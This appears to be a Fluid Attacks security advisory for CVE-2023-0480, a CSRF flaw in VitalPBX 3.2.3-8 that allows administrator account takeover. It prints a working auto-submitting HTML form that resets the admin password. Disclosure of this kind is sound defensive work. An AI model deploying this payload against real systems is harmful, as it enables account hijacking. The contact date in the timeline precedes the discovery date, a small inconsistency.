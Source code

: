 ```yaml
---
slug: advisories/sharp/
title: VitalPBX 3.2.3-8 - Account Takeover via CSRF
authors: Carlos Bello
writer: cbello
codename: sharp
product: VitalPBX 3.2.3-8
date: 2023-02-06 12:00 COT
cveid: CVE-2023-0480
severity: 6.5
description: VitalPBX 3.2.3-8     -    Account Takeover via CSRF
keywords: Fluid Attacks, Security, Vulnerabilities, Vital PBX, Account Takeover
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                      |
| --------------------- | -------------------------------------------------------------------- |
| **Name**              | VitalPBX 3.2.3-8     -    Account Takeover via CSRF                  |
| **Code name**         | [Sharp](https://en.wikipedia.org/wiki/Ten_Sharp)                     |
| **Product**           | VitalPBX                                                             |
| **Affected versions** | 3.2.3-8                                                              |
| **State**             | Public                                                               |
| **Release Date**      | 2023-02-06                                                           |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | Cross-site request forgery                                                                             |
| **Rule**              | [007. Cross-site request forgery](https://docs.fluidattacks.com/criteria/vulnerabilities/007)          |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:H/A:N                                                               |
| **CVSSv3 Base Score** | 6.5                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0480](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0480)                          |

## Description

VitalPBX version 3.2.3-8 allows an unauthenticated external attacker to
obtain the instance administrator's account. This is possible because the
application is vulnerable to CSRF.

## Vulnerability

This vulnerability occurs because the application is vulnerable to CSRF.

### Exploit

To exploit this vulnerability, we only need to send the administrator a
malicious HTML like the following.

```html
<!DOCTYPE html>
<html>
  <body>
    <form action="http://137.184.73.151/index.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="user_id" value="1" />
      <input type="hidden" name="class" value="user_profile" />
      <input type="hidden" name="method" value="put" />
      <input type="hidden" name="mode" value="edit" />
      <input type="hidden" name="username" value="admin" />
      <input type="hidden" name="email" value="" />
      <input type="hidden" name="password" value="hacked" />
      <input type="hidden" name="role" value="1" />
      <input type="hidden" name="startapp" value="dashboard" />
      <input type="hidden" name="startapp_custom" value="" />
      <input type="hidden" name="displayname" value="Administrator" />
      <input type="hidden" name="department" value="Administración" />
      <input type="hidden" name="userphoto" value="" />
      <input type="hidden" name="userphoto" value="" />
      <input type="hidden" name="userphoto_configured" value="" />
      <input type="hidden" name="theme" value="vital_pbx" />
      <input type="hidden" name="locale" value="en_US" />
      <input type="hidden" name="timezone" value="system" />
      <input type="hidden" name="multitab" value="1" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Evidence of exploitation

![CSRF-Leads-ATO](https://user-images.githubusercontent.com/51862990/214678035-df11fa40-5836-4458-a40b-55427a46ba3d.gif)

## Our security policy

We have reserved the ID CVE-2023-0480 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: VitalPBX 3.2.3-8

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://vitalpbx.com/>

## Timeline

<time-lapse
  discovered="2023-01-24"
  contacted="2022-01-24"
  replied=""
  confirmed=""
  patched=""
  disclosure="2023-02-06">
</time-lapse>
